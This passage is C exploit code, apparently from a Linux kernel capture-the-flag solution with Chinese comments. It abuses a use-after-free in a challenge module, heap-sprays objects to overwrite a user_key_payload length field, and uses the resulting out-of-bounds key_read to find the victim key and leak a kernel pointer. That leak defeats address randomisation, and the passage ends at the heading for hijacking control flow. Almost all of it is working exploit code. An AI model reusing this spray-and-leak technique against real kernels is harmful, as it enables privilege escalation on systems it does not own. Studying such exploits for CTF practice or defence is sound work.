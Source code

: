 ```c
    note_free(0);

    info("Spraying chunk agian...");

    // 我们利用题目功能喷射大量obj，其中肯定会写到我们的user_key_payload
    // 由于user_key_payload头第0x10字节处为datalen，我们将其覆写为0x2000，从而可以越界读
    buf[0] = 0;
    buf[1] = 0;
    buf[2] = 0x2000;

    // 由于第一步喷射了KEY_SPRAY_NUM。且一次喷射两个obj，那么这次最多只需要喷射 KEY_SPRAY_NUM * 2
    for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++)
    {
        note_add(0, PIPE_INODE_INFO_SZ, buf);
    }
    // 堆喷射完成后，每个属于这个kmalloc的都被写入了一个user_key_payload的头部，包括UAF obj的user_key_payload

    // 除了UAF obj，其余所有user_key_payload的头部都是正确的，因此调用key_read不会读入太多数据
    // 因此可以利用key_read，来找到victim key.
    for (int i = 0; i < KEY_SPRAY_NUM; i++)
    {
        if (key_read(key_id[i], buf, 0x4000) > PIPE_INODE_INFO_SZ)
        {
            success("Found victim key at idx : %d!", i);
            victim_key_idx = i;
            break;
        }
        else
        {
            // 若不是victim key则释放
            // 很重要，会在释放的user_key_payload中的函数指针写USER_FREE_PAYLOAD_RCU
            // 以便于我们通过victim key越界读到这个USER_FREE_PAYLOAD_RCU
            key_revoke(key_id[i]);
        }
    }

    // 若没有找到
    if (victim_key_idx == -1)
    {
        error("Failed to find victim key!");
    }

    // 可以通过USER_FREE_PAYLOAD_RCU来获得内核基地址
    kernel_offset = -1;
    for (int i = 0; i < 0x2000 / 8; i++)
    {
        if(buf[i] >= kernel_base && (buf[i] & 0xfff) == (USER_FREE_PAYLOAD_RCU & 0Xfff)){
            kernel_offset = buf[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if(kernel_offset == -1){
        err_exit("Find kernel offset failed!");
    }
    
    info("Leaking kernel_offset of value 0x%llx...", kernel_offset);
    info("Leaking kernel_base of value 0x%llx...", kernel_base);

    /**
     * Step2. 劫持程序控制流
     */
```